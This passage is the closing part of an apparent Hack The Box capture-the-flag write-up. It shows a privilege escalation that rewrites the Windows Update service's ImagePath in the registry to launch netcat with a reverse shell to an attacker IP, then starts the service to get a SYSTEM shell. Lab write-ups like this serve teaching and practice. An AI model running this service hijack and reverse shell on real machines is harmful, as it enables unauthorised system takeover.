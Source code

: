 ```
Command:
`reg add "HKLM\System\CurrentControlSet\services\wuauserv" /t REG_EXPAND_SZ
/v ImagePath /d "C:\windows\system32\spool\drivers\color\nc.exe
10.10.14.126 9001 -e cmd" /f`

Then we just start the service.

Command:
`start-service wuauserv`

{{< figure src="__GHOST_URL__/content/images/2020/01/control_root.gif" >}}

Then we get our shell as System! 

Hopefully everyone enjoyed this box as much as I did. Hopefully something was learned during this machine. If you found this write-up helpful, consider sending some respect my way: [My HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).



